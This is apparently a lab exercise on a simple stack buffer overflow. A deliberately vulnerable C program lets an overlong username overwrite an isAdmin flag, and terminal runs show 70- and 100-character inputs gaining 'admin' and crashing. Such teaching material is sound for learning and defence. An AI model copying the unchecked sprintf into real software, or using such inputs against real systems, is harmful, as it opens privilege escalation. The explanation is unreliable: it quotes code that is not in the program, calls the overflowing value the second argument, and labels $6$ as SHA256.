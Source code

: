 # Simple Buffer overflow

## Intro

We will perform a simple buffer overflow on a binary. This overflow
will change the function flow, which enables us to gain "admin" privileges.


## Goal

* Understand C arrays by misusing them
* Get comfortable with gdb
* Deeper understanding of the stack


## Vulnerable program

We have the following program:

challenge10.c:
```c
#include <stdio.h>
#include <stdlib.h>
#include <crypt.h>
#include <string.h>

/* hash of: "ourteacheristehbest" */
const char *adminHash = "$6$saaaaalty$cjw9qyAKmchl7kQMJxE5c1mHN0cXxfQNjs4EhcyULLndQR1wXslGCaZrJj5xRRBeflfvmpoIVv6Vs7ZOQwhcx.";


int checkPassword(char *password) {
    char *hash;

    /* $6$ is SHA256 */
    hash = crypt(password, "$6$saaaaalty");

    if (strcmp(hash, adminHash) == 0) {
        return 1;
    } else {
        return 0;
    }
}


void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[64]; // should be enough for all usernames

    // Check if user has admin privileges
    isAdmin = checkPassword(password);

    // create internal username
    sprintf(name, "%s-%s", "cmd", username);

    if(isAdmin > 0) {
        printf("Hello %s.\nYou are admin!\nisAdmin: 0x%x\n", name, isAdmin);
    } else {
        printf("Hello %s.\nYou are not admin.\nisAdmin: 0x%x\n", name, isAdmin);
    }
}


int main(int argc, char **argv) {
    if (argc != 3) {
        printf("Call: %s <name> <password>\n", argv[0]);
        exit(0);
    }

    handleData(argv[1], argv[2]);
}
```

You can compile it by calling `make` in the folder `~/challenges/challenge10`


## Vulnerability

The vulnerability lies here:

```
void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[64]; // should be enough for all usernames
	[...]
	strcpy(firstname, username);
	[...]
}


int main(int argc, char **argv) {
	[...]
    sprintf(name, "%s-%s", "cmd", username);
}
```

The second argument of the program is copied into a stack buffer `name` of 64 byte size.
After this buffer `name`, an important variable called `isAdmin` is located.


## Normal behaviour

Lets execute the program with normal length string, and with a wrong password:

```
root@hlUbuntu32aslr:~/challenges/challenge10# ./challenge10 sheldon test
Hello cmd-sheldon.
You are not admin.
isAdmin: 0x0
```

The password "test" seems to be not correct, as the program tells us "You are not admin".


Lets execute it with the correct password `ourteacheristehbest`:
```
root@hlUbuntu32aslr:~/challenges/challenge10# ./challenge10 sheldon ourteacheristehbest
Hello cmd-sheldon.
You are admin!
isAdmin: 0x1
```

With the correct password, a message will be printed indicating that the user "cmd-sheldon"
has admin privileges.

## Abnormal behaviour - overflow

What happens when you insert a string which is longer than 64 bytes? Lets try it.
We can use python to print 70 characters:

```
root@hlUbuntu32aslr:~/challenges/challenge10# ./challenge10 `python -c 'print "A"*70'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
You are admin!
isAdmin: 0x41414141
```

## Abnormal behaviour - more overflow

What if we even add some more characters? Lets say 100.

```
root@hlUbuntu32aslr:~/challenges/challenge10# ./challenge10 `python -c 'print "A"*100'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
You are admin!
isAdmin: 0x41414141
Segmentation fault (core dumped)
```


## Questions

* What is happening here? Why Are we "admin" if we use a username which is 70 bytes long?
* Why does it crash, if we use a username which is 100 bytes long?
